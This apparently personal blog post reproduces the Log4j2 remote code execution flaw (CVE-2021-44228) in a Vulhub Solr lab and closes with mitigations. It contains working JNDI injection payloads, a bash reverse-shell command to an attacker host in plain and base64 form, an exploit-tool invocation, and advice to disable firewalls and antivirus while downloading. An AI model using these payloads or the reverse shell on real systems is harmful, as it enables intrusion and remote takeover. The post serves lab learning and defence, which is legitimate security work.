```yaml
---
layout:     post
title:      Apache Log4j2 远程代码执行漏洞（CVE-2021-44228）
subtitle:   纸上得来终觉浅，绝知此事要躬行
date:       2023-7-20
author:     xuoneyuan
header-img: 
catalog: 	  false
tags:
    - 漏洞复现
---
```

### 前言
做这个漏洞复现的主要原因是因为在看微信公众号文章的时候看到了这么一张图，第一眼看的时候就没绷住，后来在空间看到一个福建来的信安天才少年发了说说就是这张图，感觉有点意思，就想着自己也来复现一下

![每次看都绷不住]({{site.baseurl}}/img-post/l-13.png)

这里我翻译一下：
- ldap://：这表示URL使用LDAP协议进行通信
- chinaran404：这是LDAP服务器的主机名或IP地址
- /loveme：这是LDAP服务器内特定资源的路径，可能是一个目录、条目或其他对象

这不禁让我想起了这张图（知乎看到的，侵删）

![真的是一个悲伤的故事]({{site.baseurl}}/img-post/l-15.png)

好了言归正传，我们来分析一下这个漏洞

### 漏洞分析
#### log4j2是什么
log4j2是apache下的java应用常见的开源日志库，是一个就Java的日志记录工具。在log4j框架的基础上进行了改进，并引入了丰富的特性，可以控制日志信息输送的目的地为控制台、文件、GUI组建等，被应用于业务系统开发，用于记录程序输入输出日志信息
#### JNDI是什么
JNDI，全称为Java命名和目录接口（Java Naming and Directory Interface）,是SUN公司提供的一种标准的Java命名系统接口，允许从指定的远程服务器获取并加载对象。JNDI相当于一个用于映射的字典，使得Java应用程序可以和这些命名服务和目录服务之间进行交互。JNDI注入攻击时常用的就是通过RMI和LDAP两种服务
#### log4j2远程代码执行漏洞原理
log4j2框架下的lookup查询服务提供了{}字段解析功能，传进去的值会被直接解析。例如${java:version}会被替换为对应的java版本。这样如果不对lookup的出栈进行限制，就有可能让查询指向任何服务（可能是攻击者部署好的恶意代码）\
攻击者可以利用这一点进行JNDI注入，使得受害者请求远程服务来链接本地对象，在lookup的{}里面构造payload，调用JNDI服务（LDAP）向攻击者提前部署好的恶意站点获取恶意的.class对象，造成了远程代码执行（可反弹shell到指定服务器）

示意图:
![1]({{site.baseurl}}/img-post/l-17.png)
#### 漏洞等级
高危\
官方 CVSS 评分 10.0
#### 影响版本
Apache Log4j2 2.x <= 2.14.1\
Apache Log4j2 2.15.0-rc1（补丁绕过）
### 漏洞复现
#### 环境搭建
这里我使用的是vulhub，利用docker启动关闭环境
没有vulhub的可以用这个靶场：https://vulfocus.cn/#/dashboard
没有docker的先下载
![1]({{site.baseurl}}/img-post/l-1.png)
vulhub的下载
~~~
wget https://github.com/vulhub/vulhub/archive/master.zip -O vulhub-master.zip
unzip vulhub-master.zip
cd vulhub-master
~~~
然后进入需要开启的漏洞路径
~~~
cd vulhub-master/xxx/xxx
docker-compose up -d
~~~
![1]({{site.baseurl}}/img-post/l-2.png)
端口是8983，我们接下来访问http://192.168.xxx.xxx:8983/solr/#/
![1]({{site.baseurl}}/img-post/l-3.png)
#### 漏洞检测
官方POC(二选一）
~~~
${jndi:ldap://${sys:java.version}.xxx.dnslog.cn}
${jndi:rmi://${sys:java.version}.xxx.dnslog.cn}
~~~
利用DnsLog平台检测dns回显，查看是否有漏洞存在，获取一个子域名
![1]({{site.baseurl}}/img-post/l-4.png)
接着我们就可以对目标网站进行测试了，访问：http://192.168.xxx.xxx:8983/solr/admin/cores?${jndi:ldap://${sys:java.version}.xxxxxx.dnslog.cn }
![1]({{site.baseurl}}/img-post/l-5.png)
返回，刷新后得到数据
![1]({{site.baseurl}}/img-post/l-6.png)

#### 漏洞利用
反弹shell的命令
~~~
bash -i >& /dev/tcp/vps_ip/6666 0>&1
~~~
接着进行编码，对命令进行base64加密即可
![1]({{site.baseurl}}/img-post/l-18.png)
接下来利用现成的JNDI注入工具：JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar，项目地址：https://github.com/welk1n/JNDI-Injection-Exploit
（注意下载的时候要关掉一切防火墙和实时保护）
最迟到这里你的kali攻击机就要启动了，执行命令
~~~
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo, YmFzaCAtaSA+JiAvZGV2L3RjcC92cHNfaXAvNjY2NiAwPiYxCg==}|{base64,-d}|{bash,-i}" -A 192.168.xxx.xxx
~~~
运行后终端如图：
![1]({{site.baseurl}}/img-post/l-7.png)
这里已经一键部署好了RMI和LDAP服务的站点，并给出了路径，我选择用ldap，JDK1.8的版本为ldap://192.168.xxx.xxx:1389/Exploit，JDK1.7的版本为：ldap://192.168.xxx.xxx:1389/Exploit 这两个版本任选一个都行
再打开一个终端开启nc
![1]({{site.baseurl}}/img-post/l-8.png)
把工具生成的payload插入到action后面
~~~
http://192.168.xxx.xxx:8983/solr/admin/cores?action=${jndi:ldap://192.168.xxx.xxx:1389/xxxxxx}
~~~
![1]({{site.baseurl}}/img-post/l-9.png)

再次返回kali我们可以看到nc成功反弹shell，但是我这里有一个小问题，就是shell没有反弹回来，查了一下csdn的一个大佬说他也反弹不回来，可能是靶场的问题，我试了好几个端口比如6969，8888都没有成功反弹shell，这个时候已经凌晨2：40了，于是我决定先睡觉（~~没错我就是懒狗~~）

反弹成功的回显是这样的

![1]({{site.baseurl}}/img-post/l-11.png)

本来到这里就应该结束了，但是我还是发现一个问题，就是在JNDI注入工具上决定了你是黑客大佬还是脚本小子，如果只会用工具，那么小学生都能顺利完成这个漏洞复现（问题是我已经大学了），在JNDI脚本运行上我又出了问题

![1]({{site.baseurl}}/img-post/l-12.png)

我尝试了一下网上的方法，说是maven打包出现了问题，我照他的方法重新配置了起步依赖，但是没有用，这个事情充分说明了不会编程的hacker就是个伪命题（你给我去学Java、golang）

![1]({{site.baseurl}}/img-post/l-16.png)

#### 修复建议
1. 设置log4j2.formatMsgNoLookups=True，相当于直接禁止lookup查询出栈，也就不可能请求到访问到远程的恶意站点
2. 对包含有"jndi:ldap://"、"jndi:rmi//"这样字符串的请求进行拦截，即拦截JNDI语句来防止JNDI注入
3. 对系统进行合理配置，禁止不必要的业务访问外网，配置网络防火墙,禁止系统主动外连网络等等
4. 升级log4j2组件到新的安全的版本

### 彩蛋
![1]({{site.baseurl}}/img-post/l-14.png)
